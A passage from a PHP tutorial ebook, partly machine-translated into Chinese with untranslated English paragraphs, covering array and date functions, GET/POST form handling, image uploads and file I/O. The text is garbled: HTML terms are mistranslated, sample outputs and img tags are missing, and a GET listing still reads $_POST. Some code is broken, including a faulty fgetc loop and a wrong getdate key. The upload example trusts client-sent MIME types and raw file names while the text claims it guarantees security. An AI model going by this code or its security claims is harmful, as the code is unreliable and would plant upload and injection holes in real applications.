$array2 = ["b" => "yellow", "d" => "orange"];
$new_array = array_replace($array1, $array2);
echo "<pre>";
print_r($new_array);
echo "</pre>";
?>
```

在这个示例中，数组 `$array1` 被 `$array2` 数组中的值替换。`$array1` 和 `$array2` 中的 "b" 键都存在，因此 `$new_array` 中键 "b" 的值将被 `$array2` 中的值替换。键 "a"、"c" 和 "d" 仅存在于其中一个数组中，因此它们将被添加到 `$new_array`。

```
Array
(
    [a] => red
    [b] => yellow
    [c] => blue
    [d] => orange
)
```

## 日期和时间函数

在 PHP 中，有许多内置函数可方便地操作日期和时间。这些函数可用于格式化日期、对日期执行算术运算、计算两个日期之间的差值等。

以下是一些用于处理日期和时间的最常用函数：

- **date(format, timestamp) 函数**：返回表示当前日期和时间，或由 timestamp 指定的日期和时间的格式化字符串。format 参数定义输出字符串的格式，而 timestamp 参数（可选）指定用作转换基础的 Unix 时间戳。如果未提供 timestamp 参数，则函数使用当前时间戳。

```php
<?php
// Gets the current date in "d-m-Y H:i:s" format
$currentDate = date("d-m-Y H:i:s");
echo $currentDate . "<br>";
// Gets current date in "d/m/Y" format
$currentDate2 = date("d/m/Y");
echo $currentDate2 . "<br>";
?>
```

在这些示例中，**date()** 函数用于格式化当前日期。如果运行此代码，您将得到类似于以下的结果：


- `getdate()` 函数返回一个包含当前日期信息的关联数组。示例如下：

```php
<?php
    $currentdate = getdate();

echo "<pre>";
print_r($currentdate);
echo "</pre>";
?>
```


此代码返回一个关联数组，包含当前日期的年、月、日等元素。


- "seconds": 当前秒数（从 0 到 59）
- "minutes": 当前分钟数（从 0 到 59）
- "hours": 24 小时格式的当前时间（从 0 到 23）
- "mday": 当前月份的日期（从 1 到 31）
- "wday": 当前星期几（从 0 表示星期日 到 6 表示星期六）
- "my": 当前月份（从 1 到 12）
- "year": 当前年份（完整格式，例如 2024）
- "yday": 当前年中的天数（从 0 到 365）
- "weekday": 当前星期的完整名称（例如 "Monday"）
- "month": 当前月份的完整名称（例如 "February"）
- "0": 表示当前日期的 Unix 时间戳

这些元素提供了当前日期和时间的精确细节。

- PHP 的 **time()** 函数返回自 1970 年 1 月 1 日午夜 UTC（Unix 时间）起经过的秒数。它不接受任何参数。

## Example

```php
<?php
$current_time = time();
echo "The time in seconds since the Unix epoch: $current_time";
?>
```

运行此代码将返回自 01/01/1970 以来的当前时间（秒）：

自 Unix 纪元以来的秒数：1712100170

此函数常用于测量持续时间、计算时间间隔或其他基于时间的操作。

- PHP 中的 strtotime() 函数用于将文本日期解析为 Unix 时间戳值，表示自 1970 年 1 月 1 日 00:00:00 UTC（Unix 时间）起经过的秒数。以下是其用法的几个示例：

```php
<?php
$date_text = "2023-08-29";
$timestamp = strtotime($date_text);
echo "The timestamp for the date $date_text is: $timestamp";
?>
```

此代码将产生类似以下的结果：


## 如何计算两个特定日期之间时间的示例

您可以使用 `strtotime()` 函数获取这些日期的时间戳，然后减去相应的时间戳以获得秒差。随后，您可以根据需要将此差值转换为天、小时、分钟等。

以下是计算 02/15/1996 和 08/29/2024 之间持续时间的示例：

```php
<?php
// Start date timestamp (02/15/1996 at 00:00:00)
$departure_date = strtotime("1996-02-15");

// Timestamp of arrival date (29/08/2024 at 00:00:00)
$arrival_date = strtotime("2024-08-29");

// Calculate difference in seconds
$difference_seconds = $arrival_date - $departure_date;

// Display duration in seconds
echo "Duration in seconds between 02-15-1996 and 08-29-2024: $difference_seconds";
?>
```

此代码将产生类似以下的结果：


## 结论

需要注意的是，PHP 提供了大量预定义函数，用于完成各种任务，从数学运算和字符串操作到数组操作和日期/时间管理等。在单本书中不可能详尽地涵盖所有这些函数。

本章的目的是为您提供 PHP 内置不同类别函数的代表性示例，以便您了解其基本用法和操作。必须注意的是，其目的并非让您全部背诵所有函数，而是让您熟悉它们的存在和实用性。

作为开发人员，培养在需要使用特定函数时搜索和查阅官方 PHP 文档或其他在线资源的能力至关重要。这是软件开发过程的组成部分，将使您能够自行探索 PHP 语言提供的功能和可能性。

## B 部分

### 高级数据管理和浏览器交互

在本部分中，我们将探索数据操作和浏览器交互的高级方面。我们将深入研究高级技术，使您能够创建更动态、更具交互性的 Web 应用程序。

### 第 7 章

本章将介绍如何使用 GET 和 POST 方法处理来自浏览器的数据。我们将探讨如何从表单中检索数据，并在 PHP 脚本中使用它们来为 Web 应用程序创建交互功能。

### 第 8 章

图像和文件：本章侧重于 Web 应用程序中图像和文件等多媒体资源的管理。它探讨了在服务器端存储、加载和操作图像和文件的最佳实践。

### 第 9 章

会话和 Cookie 管理：本章探讨了 Web 应用程序中管理用户会话状态的机制。它详细介绍了使用 Cookie 存储客户端信息，以及服务器端会话管理技术。

## 第 7 章

### 浏览器数据处理 (GET, POST)

到目前为止，我们已探索了多项构成未来学习基础的基本概念。如果这是您初次涉足服务器端编程，一开始感到有点不知所措是正常的。您也可能无法完全理解变量、条件、循环、函数、数组等内容的用处。这可以理解，因为迄今为止，我们主要使用的是自己定义的值。换句话说，我们在示例中使用预定义值初始化了变量。

然而，在本课程的其余部分中，我们将使用那些我们并非预先定义值的变量。例如，我们将学习如何检索用户通过表单输入的信息，您将充分理解迄今所学内容的重要性。

本书的本章侧重于处理来自浏览器的数据，特别强调 GET 和 POST 方法。当我们与网站交互时，通常会传输表单参数或 URL 标识符等信息。这些数据对于个性化用户体验、执行搜索或管理用户会话等至关重要。

本章将为您提供在 PHP 项目中有效操作浏览器数据所需的知识，为创建更动态、更具交互性的 Web 应用程序铺平道路。

### 在 PHP 中传输和处理表单数据

要检索用户在表单中输入的数据，主要有两种方法：第一种方法是创建两个独立的文件：一个包含表单的 HTML 文件和一个负责处理该表单提交数据的 PHP 文件。

第二种方法是将 HTML 表单代码和 PHP 处理代码合并在一个 PHP 文件中。

最初，我们将专注于第一种配置，即使用两个独立文件。第一个文件（例如名为 "form.php"）将包含表单，而第二个文件（例如名为 "processingform.php"）将负责处理该表单传输的数据。


在 ebookphp 目录中，创建这两个文件：


### 创建表单

让我们在 form.php 文件中创建一个表单：

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Form </title>
</head>
<body>
<form action="processingform.php" method="post">
<fieldset>
<legend>Personal information:</legend>
<label for="lastname">Last Name:</label><br>
<input type="text" id="lastname" name="lastname"><br>
<label for="firstname">First Name:</label><br>
<input type="text" id="firstname" name="firstname"><br>
<label for="email">Email address:</label><br>
<input type="email" id="email" name="email"><br>
<label for="country">Country:</label><br>
<select id="country" name="country">
  <option value="France">France</option>
  <option value="Morocco">Morocco</option>
  <option value="Spain">Spain</option>
  <option value="Canada">Canada</option>
  <option value="Belgium">Belgium</option>
</select><br><br>
<input type="submit" value="Send">
</fieldset>
</form>
</body>
</html>
```

此表单使用标题为“个人信息”的字段集设计，包含以下字段：


"姓", "名", "电子邮件地址" 和 "国家"。

**输入**字段是用于输入用户数据的表单元素。type 属性定义字段类型，例如用于“姓”和“名”等文本字段的“text”，以及用于电子邮件地址字段的“email”。id 属性用于关联相应的标签，而 name 属性在提交表单时对于标识字段数据至关重要。

**下拉列表** 和 **选项** 元素用于下拉列表。**下拉列表** 标签创建下拉列表，而 option 标签定义列表中的每个选项。每个 option 的 value 属性是在选择时发送到服务器的值。

The "submit" input button allows the user to submit the form. The value attribute defines the text displayed on the button, in this case "Submit".

The **表单** tag frames all the elements of the form. The **动作** attribute specifies the URL of the data processing script (in this example, "processingform.php"), while the **方法** attribute defines the HTTP method used to send the data (here, POST).

To retrieve data sent from an HTML form, PHP provides two methods: **GET** and **POST**, accessible via the superglobal variables $_GET and $_POST. These superglobals are used to retrieve the values of form fields, as we'll see later.


## 在 PHP 中使用 POST 方法检索数据

Once the form has been created in the form.php file, the process of retrieving the transmitted data is as follows:

When the user submits the form by clicking on the "Send" button, the data is sent to the server.

The server receives the data and transmits it to the processing file specified in the form's "action" attribute (in this case, "processingform.php").

In the processingform.php file, we retrieve the data transmitted via the $_GET or $_POST superglobal variables, depending on the method used in the form (in this example, POST).

We then process this data according to the needs of the application, such as validation, manipulation, storage in a database, and so on.

Here's an example of code for the file processingform.php, which assumes that the form uses the POST method to send data:

```php
<?php
// Retrieve form data
$lastname = $_POST["lastname"];
$firstname = $_POST["firstname"];
$email = $_POST["email"];
$country = $_POST["country"];

// Example of data processing (display)
echo "Last Name : " . $lastname . "<br>";
echo "First Name : " . $firstname . "<br>";
echo "Email : " . $email . "<br>";
echo "Country : " . $country . "<br>";
?>
```

In this code, variables such as $lastname, $firstname, $email and $country are used to store the values entered in the form fields. Each variable is associated with a specific key in the $_POST superglobal, which corresponds to the “name” attribute of the form fields.

Data is retrieved from the $_POST superglobal using the keys associated with the form fields. For example,
$_POST["lastname"] retrieves the value of the field with the name attribute equal to "lastname".

Once the data has been retrieved, it is processed or displayed according to the needs of the application. In
this example, the data is simply displayed on the screen using the echo function.

Each form field is displayed with its corresponding label to make it easier to read and understand the data
entered by the user.

In short, this PHP code retrieves data submitted via an HTML form, stores it in appropriate variables and
displays it on screen for demonstration or further processing.

To test this code, simply fill in the form in the form.php file and validate it by clicking on the "Send" button.
You will obtain a result similar to the following:

Last Name : Dupont
First Name : Alice
Email : dupont-alice@gmail.com
Country : Canada

## 警告

If you try to access the processingform.php file directly, you'll get errors similar to the following:


In fact, when you try to access the file processingform.php directly, without passing through the form that sends data via the POST method, you'll get this type of error. This is because the PHP code in processingform.php attempts to access form field values from the $_POST superglobal, but since these values are not sent via POST when accessing the file directly, PHP cannot find them in $_POST.

In other words, when you access processingform.php directly, there's no data sent via POST, so indexes such as "last name", "first name", "email" and "country" don't exist in the $_POST superglobal. As a result, when PHP tries to access these non-existent indexes, it generates errors.

To avoid these errors, it's important to additional tests to check whether the data is available in $_POST before attempting to retrieve it. Let's modify the code in the file processingform.php as follows:

```php
<?php

// Check whether data has been sent via POST
if ($_SERVER["REQUEST_METHOD"] == "POST") {

    // Retrieve form data
    $name = $_POST["lastname"];
    $firstname = $_POST["firstname"];
    $email = $_POST["email"];
    $country = $_POST["country"];

    // Example of data processing (display)
    echo "Name : " . $name . "<br>";
    echo "First name : " . $firstname . "<br>";
    echo "Email : " . $email . "<br>";
    echo "Country : " . $country . "<br>";
} else {
    // Display an error message if the request method is not POST
    echo "Error: Access not authorized.";
}
?>
```

With this approach, you first check whether data has been sent via POST using `$_SERVER["REQUEST_METHOD"]` == "POST". If the request method is not POST, you can display an appropriate error message to inform the user.

In other words, if you try to access the processingform.php file directly, you'll get the message displayed in the **否则** block; otherwise, if you go through the form in the form.php file, you'll get the data entered displayed.

For example:


We can further optimize our code by performing a pre-check to ensure that all expected data is available in the `$_POST` variable. For example, we can check that all the required fields are filled in, and that the email field contains a valid email address, in line with email address standards (in particular, by checking for the presence of the "@" symbol). This will improve the robustness and reliability of our processing of the data entered in the form. Here is the updated code:

```php
<?php
// Check whether data has been sent via POST
if ($_SERVER["REQUEST_METHOD"] == "POST") {
// Check if expected data is available in $_POST
if (empty($_POST["lastname"])) {
echo "Please enter your last name!";
} elseif (empty($_POST["firstname"])) {
echo "Please enter your first name!";
} elseif (empty($_POST["email"]) || !filter_var($_POST["email"], FILTER_VALIDATE_EMAIL)) {
echo "Please enter a valid email!";
} elseif (empty($_POST["country"])) {
echo "Please select your country!";
} else {
// Retrieve form data
$lastname = $_POST["lastname"];
$firstname = $_POST["firstname"];
$email = $_POST["email"];
$country = $_POST["country"];

// Example of data processing (display)
echo "Last Name : ". $lastname ."<br>";
echo "First Name : ". $firstname ."<br>";
echo "Email : ". $email ."<br>";
echo "Country : ". $country ."<br>";
}
} else {
// Display an error message if the request method is not POST
echo "Error: Access not authorized";
}
?>
```

This PHP code first checks whether data has been sent via the POST method by checking the value of $_SERVER["REQUEST_METHOD"]. It then checks whether the expected data is available in $_POST. If any of the following conditions are not met, an appropriate error message is displayed:

- If the "last name" field is empty, the message "Please enter your last name!" is displayed.
- If the "first name" field is empty, the message "Please enter your first name!" is displayed.
- If the "email" field is empty or does not contain a valid email address (checked using FILTER_VALIDATE_EMAIL), the message "Please enter a valid email!" is displayed.
- If the "country" field is empty, the message "Please choose your country!" is displayed.

If all conditions are met, i.e. if all required fields are filled in and the e-mail address is valid, the form data


从变量 $lastname、$firstname、$email 和 $country 中检索。最后，执行一个数据处理示例，其中显示这些变量的值以供演示。

如果请求方法不是 POST，即数据未通过表单提交，则会显示错误消息“错误：未授权访问”。

请注意，PHP 中的 filter_var 函数用于使用特定过滤器过滤变量。它接受两个参数：要过滤的变量和要应用的过滤器。

在此示例中，FILTER_VALIDATE_EMAIL 被用作过滤器，以检查变量是否包含有效的电子邮件地址。此过滤器旨在根据标准格式规范验证电子邮件地址。如果变量不包含有效的电子邮件地址，filter_var 函数返回 false，否则返回电子邮件地址。

总之，filter_var($_POST["email"], FILTER_VALIDATE_EMAIL) 检查变量 $_POST["email"] 是否根据标准格式标准包含有效的电子邮件地址。如果是，则返回电子邮件地址，否则返回 false。

## 在 PHP 中使用 GET 方法检索数据

GET 方法通常用于通过将数据附加到 URL 的方式，将表单数据发送到 PHP 脚本，尤其是当数据不敏感且不包含机密信息时。此数据在浏览器 URL 中可见，并可以在服务器端检索和处理。

要在 PHP 中检索通过 GET 方法发送的数据，我们使用 $_GET 超全局变量。此超全局变量包含 URL 中传递的参数的关联数组。参数使用 URL 中定义的名称进行检索。

我们将探讨如何使用 $_GET 检索 URL 参数值，以及如何在 PHP 脚本中使用它们来执行各种操作。

为此，我们返回到之前的示例。在 form.php 文件中，将 method 属性的 "post" 方法替换为 "get"。在 processingform.php 中，将所有 $_POST 的出现替换为 $_GET。

## form.php:

```php
<?php

// Check whether data has been sent via POST
if ($_SERVER["REQUEST_METHOD"] == "GET") {

    // Retrieve form data
    $name = $_POST["lastname"];
    $firstname = $_POST["firstname"];
    $email = $_POST["email"];
    $country = $_POST["country"];

    // Example of data processing (display)
    echo "Name : ". $name . "<br>";
echo "First name : " . $firstname . "<br>";
echo 'Email : ' . $email . "<br>";
echo "Country : " . $country . "<br>";
}else{
// Display an error message if the request method is not POST
echo "Error: Access not authorized.";
}
?>
```

## Processingform.php:

```php
<?php
// Check whether data has been sent via POST
if ($_SERVER["REQUEST_METHOD"] == "GET") {
// Check if expected data is available in $_GET
if (empty($_GET["lastname"])) {
echo "Please enter your last name!";
} elseif (empty($_GET["firstname"])) {
echo "Please enter your first name!";
} elseif (empty($_GET["email"]) || !filter_var($_GET["email"], FILTER_VALIDATE_EMAIL)) {
echo "Please enter a valid email!";
} elseif (empty($_GET["country"])) {
echo "Please select your country!";
} else {
    // Retrieve form data
    $lastname = $_GET["lastname"];
    $firstname = $_GET["firstname"];
    $email = $_GET["email"];
    $country = $_GET["country"];

    // Example of data processing (display)
    echo "Last Name : ". $lastname ."<br>";
    echo "First Name : ". $firstname ."<br>";
    echo "Email : ". $email ."<br>";
    echo "Country : ". $country ."<br>";
}
} else {
    // Display an error message if the request method is not POST
    echo "Error: Access not authorized";
}
?>
```

当您填写表单并点击“发送”按钮提交时，您将得到类似于以下的结果：


请注意，表单的内容已通过浏览器的 URL 地址传输。换句话说，GET 方法将数据作为 URL 中的查询字符串发送，从而方便查看和共享。

然而，需要注意的是，不建议使用 GET 方法发送敏感数据，例如密码，因为这些数据在 URL 中可见，并可能被第三方拦截。在这种情况下，POST 方法更可取，因为它将数据发送在 HTTP 请求的正文中，从而降低可见性。

此外，与 POST 方法相比，GET 方法有几个局限性：

- **数据大小限制** : 通过 GET 方法传输的数据大小受到限制，因为它包含在 URL 中。这对于大量或敏感数据可能是个问题。

- **数据安全性**：由于数据在 URL 中可见，因此很容易被第三方拦截和读取。这可能会危及密码或个人信息等敏感数据的安全性。

- **特殊字符限制**：某些特殊字符必须在 URL 中进行编码，如果处理不当，可能会导致错误或数据丢失。

**浏览器缓存：** 通过 GET 方法传输的数据可能会被浏览器缓存，如果用户共享包含敏感数据的 URL，可能会导致机密性问题。

总之，虽然 GET 方法使用简单且适合少量非敏感数据，但在安全性、数据大小和特殊字符处理方面存在显著局限性。对于敏感或大量数据，我们建议使用 POST 方法。

## 第 8 章

## 图像和文件

图像和文件操作是现代 Web 开发的重要组成部分。在本章中，我们将重点介绍两个主要方面：发送和显示图像和文件，以及在服务器上管理这些文件。

首先，我们将探讨从 HTML 表单向 PHP 服务器发送图像和文件的过程。我们将了解如何在服务器端处理这些数据，检查文件类型和大小，然后将它们保存在服务器上。接下来，我们将了解如何使用适当的 HTML 标签在网页中显示这些图像。

接下来，我们将了解服务器端的文件管理。我们将探讨创建、读取、写入和删除文件等常见操作。我们将了解如何操作目录、列出文件以及其他文件管理操作。

本章将带您深入探讨 PHP 中的图像和文件操作，为您提供有效管理 Web 应用程序中多媒体资源和文件所需的知识和技能。

## 发送和显示图像或文件

使用表单发送和显示图像或文件的过程可以分为几个阶段：

- 创建上传表单：首先，您需要创建一个 HTML 表单，以允许用户从其设备选择并上传文件到服务器。您可以使用类型为 "file" 的 `<input>` 标签来创建用于选择文件的表单字段。

- 表单处理：用户提交表单后，文件数据将发送到服务器。然后，您需要创建 PHP 代码来处理这些数据。此代码可以集成到同一表单脚本中，也可以在独立的 PHP 脚本中。此代码必须检查文件是否已正确发送，是否遵守您定义的文件大小和类型限制，然后将其保存在服务器上。

- 在网页上显示图像：图像发送并保存在服务器上后，您可以使用 HTML 的 `` 标签在网页上显示它。您必须在 `` 标签的 "src" 属性中指定图像的路径。

### 创建发送表单

以下是一个代码示例，用于说明该过程：

在 index.php 文件中，创建以下表单：

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Image submission form</title>
</head>
<body>
<form action="" method="post" enctype="multipart/form-data">
  <label for="file">Select an image to send:</label>
  <input type="file" name="file" id="file" capture="Select File">
  <input type="submit" value="Send">
</form>
</body>
</html>
```

此 HTML 表单用于允许用户将文件（尤其是图像）发送到 Web 服务器。

`<form action="" method="post" enctype="multipart/form-data">`: 此 `<form>` 标签定义表单的开始。action 属性指定数据处理脚本的 URL（在此情况下为空，以提交到同一页面），而 method 属性指定用于发送数据的 HTTP 方法，在此情况下为 "post"。**enctype** 属性定义表单的内容类型，在发送文件时为 "multipart/form-data"。

以下是表单的概览：


简而言之，此表单允许用户选择要发送的文件，然后提交表单，以便文件可以通过 POST 方法使用 "multipart/form-data" 内容类型传输到服务器。

## 表单处理

下一步是在项目结构中创建名为 "uploads" 的目录，用于存储上传的图片。然后，在 index.php 文件中，在表单之前，我们集成 PHP 代码来管理通过表单传输的数据。

```php
<?php
// Check that the file has been sent correctly
if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_FILES["file"])){

$file = $_FILES["file"];

// Check if the file is a JPEG or PNG image
$allowed_types = ["image/jpeg", "image/png"];

if (in_array($file["type"], $allowed_types)) {
// Move file to destination directory on server
$destination = "uploads/".$file["name"];
move_uploaded_file($file["tmp_name"], $destination);
echo "The image has been uploaded successfully.";
} else {
echo "Error: Please select an image in JPEG or PNG format.";
}
}
?>
```

此 PHP 代码用于检查和处理通过 HTML 表单发送的文件，特别是用于在服务器上上传和保存图片。

- 第一行代码检查请求方法是否为 **POST**，以及文件是否已以键 "file" 发送到 `$_FILES` 超全局变量。"file" 是表单 "name" 属性的值。
- 接下来，创建一个 `$file` 变量，并用从 `$_FILES` 超全局变量中提取的下载文件数据对其进行初始化。
- 在名为 $allowed_types 的数组中定义了一组授权的图片类型，在此例中为 "image/jpeg" 和 "image/png"。
- 使用 in_array() 函数检查下载文件的类型是否是 $allowed_types 数组中定义的允许类型之一。
- 如果是这种情况，文件将使用 move_uploaded_file() 函数从临时文件夹移动到 $destination 变量中指定的目标目录。临时文件由 $_FILES["file"]["tmp_name"] 指定，文件名在 $file["name"] 中保持不变。
- 如果文件类型未获授权，将显示一条错误消息，指导用户选择 JPEG 或 PNG 格式的图片。

此代码确保仅接受并上传 JPEG 或 PNG 文件到服务器，从而保证数据的安全性和完整性。

要测试您的代码，请按照以下简单步骤操作：运行 index.php 文件，从您的设备中选择一张图片，然后验证表单。如果您选择的图片符合指定的允许类型，它将保存到您之前创建的 "uploads" 目录中。

图片上传成功。
选择要发送的图片：Choisir un fichier Aucun fichier choisi 发送

请注意，但是，存储文件的目录必须可写且可读。根据您的操作系统，您可能需要授予对该目录的读写权限。

## 在网页中显示图片

第三步是显示表单传输的图片。为此，我们创建一个名为 display_image.php 的文件：

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Image display</title>
</head>
<body>
<h1>Image sent:</h1>

<!-- Display uploaded image -->

<?php
$image_path = "uploads/php.png"; // Path to image saved on server
echo '';
?>
</body>
</html>
```

带有 PHP 标签的此 HTML 代码用于在网页上显示图片。

- $image_path = "uploads/php.png"; : 定义服务器上保存的图片的路径。
- echo ''; : 使用 img 标签显示图片，src 属性指定图片路径，alt 为图片提供替代文本（有助于无障碍访问），width 定义其以像素为单位的宽度。

## 图片已发送：


## 文件管理

文件管理是 PHP Web 开发的重要组成部分，因为它允许您操作和与服务器上的文件进行交互。本节将介绍读取、写入、创建和删除文件等基本操作。

## 文件播放

## 使用 file_get_contents()

file_get_contents() 函数将文件的完整内容读入字符串。此方法适用于内容可以存储在内存中的小文件。

例如：

首先，在您的 "ebookphp" 项目根目录下创建一个名为 "filetext" 的目录。在此目录中，保存一个名为 "poem1.txt" 的文本文件，其中包含莎士比亚最著名的诗歌之一的一部分。

以下是 "poem1.txt" 文件的内容：


在 index.php 文件中，我们放置读取 poem1.txt 文件内容的代码：

```php
<?php
// Read the contents of a file in a string
$content = file_get_contents('filetext/poem1.txt');

// Display the contents of the file
echo $content;
?>
```

此 PHP 代码读取位于 "filetext" 目录中名为 "poem1.txt" 的文本文件的内容（这是莎士比亚最著名的诗歌之一）。**file_get_contents()** 函数用于读取文件内容并将其存储在名为 $content 的变量中。然后使用 **echo $content;** 命令在屏幕上显示文件内容。

运行 index.php 将产生以下结果：


结果显示，在显示 "poem1.txt" 文件内容时，未保留换行符。

要在使用 file_get_contents() 读取文件时保留换行符，可以使用 PHP 预定义的 nl2br() 函数将换行符转换为 HTML <br> 标签。这样可以在 HTML 上下文中正确显示换行符。

以下是如何修改您的示例以包含 nl2br() 函数：

```php
<?php
// Read the contents of a file in a string
$content = file_get_contents('filetext/poem1.txt');
// Convert line breaks into HTML tags <br>
$content_with_br = nl2br($content);
// Display file contents with line breaks preserved
echo $content_with_br;
?>
```

经过此修改，poem1.txt 文件中的换行符将在您的 HTML 页面中正确显示。

我可将你比作夏日？
你比夏日更可爱更温和：
粗暴的狂风会摇动五月的珍贵花蕾，
夏日的期限实在太短：
有时天堂之眼过于炽热，
它的金色面容常常被遮蔽；
一切美丽终将从美丽中消逝，
因机缘或自然变迁而失去修饰；
但你的永恒夏日将不曾消逝，
也不会失去你所拥有的那份美丽；
死亡也不会夸口你在他的阴影中游荡，
当你与永恒的诗行一起随时间增长；
只要人类还能呼吸，或眼睛还能看见，
这首诗就长存，并赋予你生命。

简而言之，file_get_contents() 函数在 PHP 中用于将文件内容读取为字符串。它非常适合从文本文件、CSV 文件甚至网页等文件中提取文本内容。此函数简单易用，以字符串形式返回文件的完整内容，从而使在 PHP 代码中操作变得容易。

## 使用 fopen()、fread() 和 fclose()

对于对较大文件进行更受控和高效的读取，可以使用 fopen()、fread() 和 fclose() 函数。fopen() 打开文件，fread() 从文件中读取指定字节数，fclose() 在读取后关闭文件。

以下是使用它们读取文件内容的方法：

**fopen()**：此函数打开文件或 URL 并返回文件指针。它接受两个参数：要打开的文件名和打开模式（读取、写入等）。该函数的语法如下：

```
$handle = fopen("file_name", "Opening_mode");
```

打开模式指定如何打开文件。以下是一些常见模式：

- "r": 以只读模式打开文件。文件指针位于文件开头。
- "w": 以仅写入模式打开文件。删除现有内容，如果文件不存在则创建新文件。文件指针位于文件开头。


"a": 以仅写模式打开文件。文件指针位于文件末尾。如果文件不存在，则尝试创建它。

"r+": 以读写模式打开文件。文件指针位于文件开头。
fopen() 函数返回一个文件指针，该指针由其他文件操作函数（如 fread()、fwrite() 等）使用。如果 fopen() 函数失败，则返回 FALSE。

以下是一个示例：

```php
<?php
$handle = fopen("filetext/poem1.txt", "r");
?>
```

使用 fopen() 函数打开文件后，下一步是读取其内容。PHP 为这项任务提供了多个函数，包括 fread() 函数、fgets() 函数和 fgetc() 函数。这些函数各自提供了从打开的文件中读取数据的不同方法。

**fread() 函数：** 从使用 fopen() 打开的文件中读取特定数量的字节。它接受两个参数：由 fopen() 返回的文件指针和要读取的字节数。但是，如果你希望读取整个文件，可以使用 filesize() 函数，该函数返回文件的总大小。只需提供要读取的文件名即可。

```php
<?php
$handle = fopen("filetext/poem1.txt", "r");
$content = fread($handle, filesize("filetext/poem1.txt"));
echo $content;
?>
```

执行此代码将打开 poem1.txt 文件并允许只读访问其全部内容。


如果你希望从文件内容中读取特定数量的字节，只需将此字节数作为 fread() 函数的第二个参数指定即可。例如，以下代码允许你只读取此内容的 50 个字节。

```php
<?php
$handle = fopen("filetext/poem1.txt", "r");
$content = fread($handle, 50);
echo $content;
?>
```

### 结果：

### fgets() 函数：
从 fopen() 打开的文件中读取一整行。它以 fopen() 返回的文件指针作为参数。该函数读取直到行尾字符（通常是换行符或回车符）的那一行。它将读取的行作为字符串返回，包括行尾字符。如果到达文件末尾，则返回 false。

### 示例：

```php
<?php
$handle = fopen("filetext/poem1.txt", "r");
$content = fgets($handle);
echo $content;
?>
```

### 结果：

我可将你比作夏日？

### fgetc() 函数：
从 fopen() 打开的文件中一次读取一个字符。它以 fopen() 返回的文件指针作为参数。每次调用 fgetc() 时，它在文件中向前移动一个字符，并将读取的字符作为字符串返回。如果到达文件末尾，则返回 false。

在以下示例中，fgetc() 函数将被执行六次，显示相关文件的前六个字符：

```php
<?php
$handle = fopen("filetext/poem1.txt", "r");
echo fgetc($handle);
echo fgetc($handle);
echo fgetc($handle);
echo fgetc($handle);
echo fgetc($handle);
echo fgetc($handle);
?>
```

### 结果：


要使用 fgetc() 函数读取文件的全部内容，可以在 while 循环中调用它，直到它返回 false，表示到达文件末尾。

以下是代码示例：

```php
<?php
$file = fopen("filetext/poem1.txt", "r");
if ($file) {
// Loop for reading character by character
while ((!$char = fgetc($file)) != false) {
echo $char;
}
}
?>
```

这段 PHP 代码使用 fopen() 函数以读取模式打开 "poem1.txt" 文件。如果文件打开成功（即 $file 不等于 false），则启动一个 while 循环。在循环的每次迭代中，使用 fgetc() 函数从文件中读取一个字符。循环条件检查 fgetc() 返回的值是否不为 false，意味着文件中仍有字符可读。如果是，则使用 echo 显示该字符。该循环重复执行，直到到达文件末尾，此时 fgetc() 返回的值变为 false，从而终止循环。

### fclose() 函数：
用于关闭之前使用 fopen() 函数打开的文件。它以 fopen() 返回的文件指针作为参数。

使用 fclose() 的示例：

```php
<?php
$handle = fopen("filetext/poem1.txt", "r");

if ($handle) {
$content = fread($handle, filesize("filetext/poem1.txt"));
echo $content;
fclose($handle); // Close file
} else {
echo "Unable to open file";
}
?>
```

这段 PHP 代码使用 fopen() 函数以读取模式打开文件 "poem1.txt"。如果文件打开成功，则使用 filesize() 函数获取文件大小，并使用 fread() 函数将文件内容读入变量。然后使用 echo 显示内容。

读取文件内容后，使用 fclose() 函数关闭文件并释放关联资源。如果无法打开文件，则显示一条错误消息，指示文件打开失败。

## 文件创建

在 PHP 中创建文件是一项常见操作，可以使用一些内置函数轻松完成。以下是创建新文件的方法：

### 使用 fopen() 函数

创建文件的第一步是使用 fopen() 函数。此函数打开一个文件，如果文件不存在则创建一个。以下是一个示例：

```php
<?php
// Open a file in write mode (create a new file if it doesn't exist)
$handle = fopen("filetext/new_file.txt", "w");

// Check if the file has been opened successfully
if ($handle != false) {
    echo "The file has been created successfully!";
    fclose($handle); // Close file after use
} else {
    echo "Impossible to create the file";
}
?>
```

在此示例中，我们使用 fopen() 以写入模式（“w”）打开名为 "new_file.txt" 的文件。如果文件不存在，fopen() 将创建它。如果文件打开成功，则显示成功消息；否则显示错误消息。

fopen() 函数还可用于以其他模式打开文件，例如只读（“r”）、读写（“r+”）、追加（“a”）等等。

在向其中写入数据之前创建文件，此步骤至关重要。

如果此代码无错误执行，将显示消息 "The file has been created successfully"，并在 "filetext" 目录中创建一个名为 "new_file.txt" 的新空文件。


## 写入文件

在 PHP 中向文件写入是一项常见操作，常用于生成数据文件、活动日志或报告。PHP 提供了多种向文件写入的方法，提供了极大的灵活性以满足不同的开发需求。在本节中，我们将探讨在 PHP 中向文件写入的不同方式。

### 使用 fwrite() 函数

文件成功打开后，可以使用 fwrite() 函数向其中写入数据。

PHP 中的 fwrite() 函数用于将数据写入文件。它通常接受三个参数：文件指针（通常由 fopen() 函数返回）、要写入文件的字符串，以及可选的要写入的字符串长度。如果未指定长度，fwrite() 将写入提供的整个字符串。

fwrite() 函数返回写入文件的字节数，如果出错则返回 FALSE。它通常与 fopen() 函数配合使用，以写入模式打开文件。数据写入后，我们建议使用 fclose() 函数关闭文件，以释放系统资源。

以下是使用 fwrite() 向文件写入的示例：

```php
<?php
// Open a file in write mode
$file = fopen("filetext/new_file.txt", "w");

// Write a string to the file
$data = "This is an example of content to be written to the file.";
fwrite($file, $data);

// Close the file
fclose($file);
?>
```

在此示例中，fopen() 函数以写入模式（“w”）打开名为 "new_file.txt" 的文件。接下来，fwrite() 函数将 $data 变量中存储的字符串写入此文件。最后，fclose() 函数关闭新创建的文件。

### 使用 file_put_contents() 函数

PHP 中的 file_put_contents() 函数用于将数据写入文件。它将要写入的文件路径、要写入的数据以及可能的其他选项作为参数。

使用 file_put_contents() 向文件写入的示例：

```php
<?php

// Data to be written to the file
$data = "Content to be written to the file.";

// Target file path
$filename = "filetext/new_file.txt";

// Write data to file
file_put_contents($filename, $data);


```
?>
```

